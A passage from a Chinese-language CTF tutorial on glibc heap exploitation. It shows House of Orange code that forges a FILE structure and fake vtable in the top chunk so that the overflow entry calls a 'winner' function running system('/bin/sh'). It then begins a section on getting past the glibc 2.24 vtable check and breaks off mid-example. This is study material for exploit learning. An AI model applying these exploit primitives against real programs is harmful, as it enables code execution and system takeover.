 这里我们需要覆盖`overflow`函数，也就是`vtable[3]`。而另外`vtable`相对于`_IO_FILE_plus`起始地址处的偏移是`0xd8`。`top chunk`的`IO_FILE_plus`结构体中的`vtable`是可以任意构造值的，我们将其设置到`top chunk`处的任意地方即可，只需要注意`fake_vtable->overflow`处不要被占用。这部分代码如下：

```c
// 将top chunk解释为一个FILE结构体
FILE *fp = (FILE *) top;
// 满足函数调用链中的_IO_flush_all_lockp()函数的要求
fp->_mode = 0; // top+0xc0
fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28

size_t *jump_table = &top[20]; // 我们将top chunk的vtable指向自身的某个地方，随意
jump_table[3] = (size_t) &winner; // top chunk的vtable的第[3]个函数也就是overflow，将其函数指针设置为winner
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top chunk的vtable指向刚刚设置的fake vtable

malloc(10); // 最终进行一次malloc，来完成unsortedbin attack开始的所有流程
```

其中`winner`函数就是咱们的后门函数。

```c
int winner(char *ptr)
{ 
    system(ptr); // 按照上面的步骤会传入一个/bin/sh
    syscall(SYS_exit, 0);
    return 0;
}
```

参考链接：

[ha1vik师傅](https://blog.csdn.net/seaaseesa/article/details/104314949)

[House_of_orange学习小结](https://www.cnblogs.com/L0g4n-blog/p/14217309.html)

[借助gdb调试glibc代码学习House of Orange - 简书 (jianshu.com)](https://www.jianshu.com/p/57a5c9a492aa?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)

# glibc2.24下的vtable check以及绕过

## vtable的check

在`glibc 2.23`中，我们可以劫持`_IO_FILE_plus`中的`vtable`，并使其指向我们可控的内存区域，便可使用`FSOP`等方式调用我们所需的函数。

然而，在`glibc2.24`下就有了关于`vtable`劫持的`check`。例如，我们可以在`glibc2.23`下使用如下代码完成`vtable`的劫持，触发后门函数：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void winner(char* code){
    system("echo win");
}


// 这个main函数在glibc2.23是完全可行的，最终可以执行winner函数。
int main(){
    // 我们通过打开一个文件的方式，来得到一个_IO_FILE_plus指针fp
    FILE* fp = fopen("./flag", "r");

    // 我们创建一个fake_vtable，尝试劫持_IO_FILE_plus的vtable指针
    size_t* fake_vtable = (size_t*)malloc(0x100);

    // 劫持vtable为fake_vtable
```